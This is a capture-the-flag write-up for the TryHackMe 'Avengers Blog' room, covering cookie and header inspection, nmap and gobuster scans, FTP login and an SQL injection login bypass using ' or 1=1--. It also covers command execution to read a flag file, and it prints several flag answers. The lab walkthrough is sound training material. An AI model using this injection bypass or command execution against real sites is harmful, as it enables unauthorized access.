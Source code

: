 # TryHackMe: Avengers Blog (Writeup)

IP: `10.10.225.140`

## [Task 1] Deploy

Pretty straight forward, just hit deploy and run the box. Ping and navigate to host. 

## [Task 2] Cookies

Hit `F12` in your browser. Goto `Storage`, `Cookies`, then pull the value for `flag1`... 

```
cookie_secrets
```

## [Task 3] HTTP headers

Hit `F12` goto `Network` tab; refresh the page to capture a `GET` request. Then find the flag in the _response headers_.

```
headers_are_important
```

## [Task 4] Enumeration and FTP

Run an `nmap` scan; enumerate all services. Then, connect the host's FTP server with credentials `groot:iamgroot` .

```shell
kali@kali:~$ ftp 10.10.225.140
Connected to 10.10.225.140.
220 (vsFTPd 3.0.3)
Name (10.10.225.140:kali): groot
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 .
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 ..
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Oct 04  2019 .
dr-xr-xr-x    3 65534    65534        4096 Oct 04  2019 ..
-rw-r--r--    1 0        0              33 Oct 04  2019 flag3.txt
226 Directory send OK.

ftp> get flag3.txt
local: flag3.txt remote: flag3.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag3.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (6.8934 kB/s)

ftp> exit
221 Goodbye.

kali@kali:~$ ls
flag3.txt 
kali@kali:~$ cat flag3.txt 
8fc651a739befc58d450dc48e1f1fd2e

```

-----

### Nmap Enumeration

__Important__
- SSH on 22
- FTP on 21 (vsftpd 3.0.3)
- HTTP on 80 (Node.js)

```shell
kali@kali:~$ nmap 10.10.225.140 -A -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 13:07 EDT                                                  
Nmap scan report for 10.10.225.140                                                                               
Host is up (0.059s latency).                                                                                     
Not shown: 65532 closed ports                                                                                    
PORT   STATE SERVICE VERSION                                                                                     
21/tcp open  ftp     vsftpd 3.0.3                                                                                
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                
| ssh-hostkey:                                                                                                   
|   2048 1e:3c:2b:9b:ee:03:e3:7a:69:8c:7d:25:b6:ea:72:91 (RSA)                                                   
|   256 72:dc:53:1a:e4:fc:1e:89:f9:b5:d6:5b:b6:a2:23:68 (ECDSA)                                                  
|_  256 f9:24:89:4d:7b:ff:bf:8b:5b:77:6b:b4:91:83:04:32 (ED25519)                                                
80/tcp open  http    Node.js Express framework                                                                   
|_http-title: Avengers! Assemble!                                                                                
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                                                   
                                                                                                                 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.83 seconds
```

## [Task 5] Gobuster

Found a few files/directories; though `/portal` returns a login page.

```shell
kali@kali:~$ gobuster dir -u http://10.10.225.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.225.140
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/24 13:19:06 Starting gobuster
===============================================================
/Home (Status: 302)
/assets (Status: 301)
/css (Status: 301)
/home (Status: 302)
/img (Status: 301)
/js (Status: 301)
/logout (Status: 302)
/portal (Status: 200)
===============================================================
2020/09/24 13:19:36 Finished
===============================================================
```

## [Task 6] SQL Injection

On page `/portal`, login with username `' or 1=1--` and password `' or 1=1--`.

The view page source with `Ctrl+U` (browser-depedant), just Right-Click -> View Source. Source viewer should count lines to be `223`.

## [Task 7] Remote Code Execution and Linux 

After trying numerous commands, such as `awk`, `grep`, `head`, `tail`, and trying to decode some base64, I eventually ran `less ../flag5.txt` to get the flag!

```
d335e2[REDACTED]718af7
```


